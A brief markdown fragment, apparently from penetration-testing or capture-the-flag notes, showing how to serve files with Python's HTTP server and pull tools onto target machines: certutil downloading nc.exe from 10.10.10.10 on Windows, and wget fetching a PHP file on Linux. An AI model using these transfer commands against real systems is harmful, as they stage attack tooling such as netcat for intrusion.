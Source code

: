
<h4>Setting Up  a webserver with python</h4>

```
python3 -m http.server 8080
```

To download from a remote server on a windows box
```
certutil -urlcache -f http://10.10.10.10/nc.exe bc.exe
```
To download from a remote server on a linux box
```
wget http://10.10.10.10/abeg.php
```
